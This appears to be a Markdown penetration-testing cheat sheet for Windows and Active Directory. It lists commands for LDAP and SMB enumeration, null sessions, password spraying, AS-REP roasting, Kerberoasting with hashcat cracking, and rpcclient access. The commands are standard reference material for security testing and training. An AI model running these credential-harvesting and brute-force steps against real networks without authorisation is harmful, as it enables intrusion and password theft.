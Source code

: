 # Windows technologies
Windows tech enumeration

# LDAP
## Look for anonymous binds
```bash
ldapsearch -H ldap://<ip>:<port> -b "dc=domain,dc=local" -x
```   
*Make sure to look for users in the Remote Management Users group*  

## Get users with
```bash
windapsearch.py --dc-ip <ip> -d domain.local -u "" -U
```
​
# SMB
## Enumeration

# smbmap
```bash
# Without creds
smbmap -H <ip>

# With cresd
smbmap -H <ip> -u <user> -p <password>
```

### CrackMapExec
```bash
# Enumerate users
crackmapexec smb <ip> -u <user> -p <password> --users

# Perform RID Bruteforce to get users
crackmapexec smb <ip> -u <user> -p <password> --rid-brute

# Enumerate domain groups
crackmapexec smb <ip> -u <user> -p <password> --groups

# Enumerate local users
crackmapexec smb <ip> -u <user> -p <password> --local-users
```

### enum4linux
```bash
enum4linux -U -o <ip>
```

### Null session attack
```bash
smbclient -N -L \\\\<ip>

crackmapexec smb <ip> -u ""
```

### Bruteforcing and password spraying
```bash
crackmapexec smb <ip> -u <username/file> -p <password/file>
```


# Kerberos
## GetNPUsers.py
Impacket's `GetNPUsers.py` will attempt to harvest the non-preauth AS_REP responses for a given list of usernames

### Usage
```bash
GetNPUsers.py domain.local/ -dc-ip <ip> -usersfile <username_file> -format hashcat -outputfile <output>
```

## Kerberoasting
Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name.

```bash
GetUserSPNs.py -request -dc-ip <ip> domain.local/user -save -outputfile <output_file>
```

### Cracking the ticket
```bash
hashcat -m 13100 --force <hash_file> <password_file>
```

#### References
- [https://www.crowdstrike.com/cybersecurity-101/kerberoasting/](https://www.crowdstrike.com/cybersecurity-101/kerberoasting/)

# RPC
# Enumeration
```bash
# Null authentication
rpcclient -U '' <ip>

# With creds
rpcclient -U <username> <ip>
```